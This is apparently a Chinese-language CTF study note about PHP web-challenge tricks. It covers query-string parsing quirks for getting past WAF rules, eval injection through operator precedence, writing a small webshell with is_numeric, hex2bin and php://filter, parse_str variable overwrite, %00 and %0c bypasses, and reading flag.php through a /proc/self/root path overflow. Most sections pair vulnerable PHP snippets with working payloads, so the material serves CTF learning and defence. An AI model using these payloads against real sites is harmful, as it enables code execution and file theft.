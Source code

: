 ## **字符串解析特性**
![](.topwrite/assets/image_1732956120665.png)
原理：<https://blog.csdn.net/bin789456/article/details/120305682>
利用：<https://blog.csdn.net/qq_45521281/article/details/105871192>
如果一个IDS/IPS或WAF中有一条规则是当num参数的值是一个非数字的值则拦截。
则禁用?num=a，但用? num=a，?%20num=a效果一样。会被转化为?[num=a。


^
传参特性
```
PHP将查询字符串（在URL或正文中）转换为内部$_GET或的关联数组$_POST。如：/?cTF=ctf变成Array（[CTF]=>"ctf"）。查询字符串在解析的过程中会删除空白符，同时将某些字符删除或用下划线代替。如，/?CTF[SHOW=42 会转换为Array([CTF_SHOW] => 42) 。

在php中变量名只有数字字母下划线，被get域者post传入的变量名，如果含有空格、+、[则会被转化为_，
所以按理来说我们构造不出CTF_SHOW.COM这个变量(因为含有.）
但php中有个特性就是如果传入[，它被转化为_之后，后面的字符就会被保留下来不会被替换。

$_POST['a_sec.b']
需要传a[sec.b=

h_in.t传参h[in.t

a_b直接传参a_b即可
```


^
## **时间相关**
```
$guess = $_GET['input'];
$target = random_int(114,114+date('s')*100000);  //114+获取的当前秒数
if(intval($guess) === intval($target)){
    good
}
```
114+获取当前秒数，必然有当前秒数是0，则就是114，所以一直?input=114等到秒数为0时即可。












^
## **运算符优先级**
and优先级低于=
```
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3); //and优先级低于=。
//所以$v0的值就是$v1的判断，检查变量$v1是否是一个数字值或数字字符串。
if($v0){
    if(!preg_match("/\;/", $v2)){
        if(preg_match("/\;/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }   
}

要读取一个类信息，类名
var_dump(get_class_vars('ctfshow'));
?v1=1&v2=var_dump(get_class_vars&v3=);

反射获取类信息
echo new ReflectionClass('ctfshow');
?v1=1&v2=echo new ReflectionClass&v3=;
```

^
## **is_numeric函数特性**
```
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    file_put_contents($v3,$str);
}
else{
    die('hacker');
}

php5下is_numeric可识别16进制，如0x2e，然后调用hex2bin转成字符串写入木马，
但题目环境没配好，是php7的is_numeric不能识别16进制，必须全数字，所以要另换方法。

当用伪协议写入时，将如下木马先base64编码后转成16进制就是全是数字的字符串！
$a='<?=`cat *`;';
$b=base64_encode($a);//$a=PD89YGNhdCAqYDs=
$c=bin2hex('PD89YGNhdCAqYDs');
得到5044383959474e6864434171594473

?v2=115044383959474e6864434171594473&v3=php://filter/write=convert.base64-decode/resource=1.php
POST:v1=hex2bin
```




^
## **parse_str()函数**
parse_str() 函数把查询字符串解析到变量中。
如果未设置第二个参数的array参数，由该函数设置的变量将覆盖其他地方定义已存在的同名变量。
```
// 假设我们有一个 URL 编码的字符串
$str = "name=Kimi&age=30";

// 使用 parse_str() 解析字符串
parse_str($str);

// 输出解析后的变量
echo $name; // 输出 Kimi
echo $age;  // 输出 30

parse_str($str,$arr);
$arr['name']
$arr['age']
```
```
$v1 = $_POST['v1'];
$v3 = $_GET['v3'];
   parse_str($v1,$v2);
   if($v2['flag']==md5($v3)){
       echo $flag;
   }

Payload：
GET：v3=0
POST: v1=flag=cfcd208495d565ef66e7dff9f98764da
```




^
## **%00截断和ereg()函数**
ereg()正则匹配函数
```
if (ereg ("^[a-zA-Z]+$", $_GET['c'])===FALSE)  {  //原意c传递必须全字母，但是可以%00截断后，后非字母
    die('error');

}

if(intval(strrev($_GET['c']))==0x36d){
    echo $flag;
}

?c=A%00778
正则匹配A满足
反转877A
数值877 即16进制36d
```



^
## **trim()函数绕过**
```
$num=$_GET['num'];
if(is_numeric($num) and $num!=='36' and trim($num)!=='36'){
    if($num=='36'){
        echo $flag;}

trim() 去除普通空格、制表符(%09)、换行符(%0a)、回车符(%0d)、空字节符(%00)、垂直制表符（%0b），但不去除换页符%0c
?num=%0c36
```
 

^
## **is_file()函数绕过**
```
if(! is_file($file)){
    highlight_file($file);
}
```
要让其认为$file不是一个文件。
```
1、伪协议
2、利用长度溢出认为不是文件
?file=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php

```


^

## **$_SERVER['QUERY_STRING'];**
对于GET传参：?a=b&c=d
$_SERVER['QUERY_STRING']; //  a=b&c=d 获取的是服务端还没url解码之前的字符串

## **$_SERVER['argv']**
```
对于GET传参：?a=b+fl0g=flag_give_me
$a=$_SERVER['argv']; //为数组 

$_SERVER['argV'][0]为 a=b，同$_SERVER['QUERY_STRING']; 
$_SERVER['argV'][1]为 fl0g=flag_give_me
```
```
<?php
 
$a=$_SERVER['argv'];
$c=$_POST['fun'];
eval("$c".";");  

if(!isset($_GET['fl0g'])){
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
?>


Payload1：
GET：?a=1+fl0g=flag_give_me  绕过if(!isset($_GET['fl0g']))
POST：fun=parse_str($a[1])

由$_SERVER['argV'][1]为 fl0g=flag_give_me
通过parse_str得 $fl0g=flag_give_me


Payload2：
?$flog=flag_give_me
fun=assert($a[0])
```